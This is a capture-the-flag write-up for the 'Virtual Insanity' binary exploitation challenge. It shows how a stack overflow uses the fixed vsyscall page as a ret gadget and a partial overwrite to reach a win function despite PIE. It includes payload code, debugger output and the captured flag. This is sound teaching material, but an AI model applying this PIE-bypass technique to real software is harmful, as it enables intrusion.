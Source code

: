 # Virtual Insanity - 19 solves

```
Dancing, Walking, Rearranging Furniture

DISCLAIMER: This challenge doesn't require brute-forcing

nc virtual.ctf.theromanxpl0.it 7011
```

We are given a binary with almost full protections, lacking stack canary. A win function is used to print the flag.

```c
000011a9    int64_t win()

000011a9    {
000011a9        puts("IMPOSSIBLE! GRAHHHHHHHHHH");
000011d9        return puts(getenv("FLAG"));
000011a9    }


000011da    int32_t main(int32_t argc, char** argv, char** envp)

000011da    {
000011da        setvbuf(stdin, nullptr, 2, 0);
0000121d        setvbuf(__TMC_END__, nullptr, 2, 0);
0000122c        puts("You pathetic pwners are worthles…");
00001242        void buf; // -0x28 stack offset
00001242        read(0, &buf, 0x50);
0000124d        return 0;
000011da    }
```

```bash
[*] '/home/kali/Desktop/chall'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

This seems like a simple *ret2win* challenge, however it gets complicated due to the fact that there is no way to leak the base address. 

Let's put a breakpoint on main's `ret` and see how the stack looks:

```c
pwndbg> stack
00:0000│ rsp 0x7fffffffdcb8 —▸ 0x7ffff7ddbd68 (__libc_start_call_main+120) ◂— mov edi, eax
01:0008│     0x7fffffffdcc0 —▸ 0x7fffffffddb0 —▸ 0x7fffffffddb8 ◂— 0x38 /* '8' */
02:0010│     0x7fffffffdcc8 —▸ 0x5555555551da (main) ◂— endbr64 
03:0018│     0x7fffffffdcd0 ◂— 0x155554040
04:0020│     0x7fffffffdcd8 —▸ 0x7fffffffddc8 —▸ 0x7fffffffe14b ◂— '/home/kali/Desktop/chall'
05:0028│     0x7fffffffdce0 —▸ 0x7fffffffddc8 —▸ 0x7fffffffe14b ◂— '/home/kali/Desktop/chall'
06:0030│     0x7fffffffdce8 ◂— 0x2a47d40ba481b7d5
07:0038│     0x7fffffffdcf0 ◂— 0
```

Since at `rsp + 0x10` is the address of the `main` function, a partial overwrite is easy. The problem is that we need to find a `ret` gadget.

But how can we find a `ret` gadget if PIE is enabled? 

 > By using **vsyscalls** - virtualized system call interfaces in Linux that speed up certain kernel operations by avoiding unnecessary context switches.

This was the tricky part of the challenge - realizing that **vsyscalls** are enabled/emulated on remote.

**vsyscalls** are always at a fixed memory address:

```c
0xffffffffff600000 0xffffffffff601000 r-xp     1000      0 [vsyscall]
```

```c
0xffffffffff600000:  mov rax, 0x60
0xffffffffff600007:  syscall
0xffffffffff600009:  ret
```

So we found our `ret` gadget!

Now, we can use this payload to return back to the `main` function:

```python
payload = b"A" * 0x28
payload += p64(0xffffffffff600000) * 2
```

And partially overwrite the `main` function address to return to the `win` function:

```python
payload += b"\xa9"
```

The stack looks like this now:

```c
pwndbg> stack
00:0000│ rsp 0x7ffe84682bf8 ◂— 0xffffffffff600000
01:0008│     0x7ffe84682c00 ◂— 0xffffffffff600000
02:0010│     0x7ffe84682c08 —▸ 0x55594dc0d1a9 (win) ◂— endbr64 
03:0018│     0x7ffe84682c10 ◂— 0x14dc0c040
04:0020│     0x7ffe84682c18 —▸ 0x7ffe84682d08 —▸ 0x7ffe84682faf ◂— '/home/kali/Desktop/chall'
05:0028│     0x7ffe84682c20 —▸ 0x7ffe84682d08 —▸ 0x7ffe84682faf ◂— '/home/kali/Desktop/chall'
06:0030│     0x7ffe84682c28 ◂— 0x7c667b6242fc42e6
07:0038│     0x7ffe84682c30 ◂— 0
```

---

```
┌──(kali㉿kali)-[~/Desktop]
└─$ ./solve.py REMOTE
IMPOSSIBLE! GRAHHHHHHHHHH
TRX{1_h0p3_y0u_d1dn7_bru73f0rc3_dc85efe0}
$  
```

---
## Full exploit code in `solve.py`

---

* During the CTF, the creator of the challenge specified that the intended solution isn't "dependant on the libc version".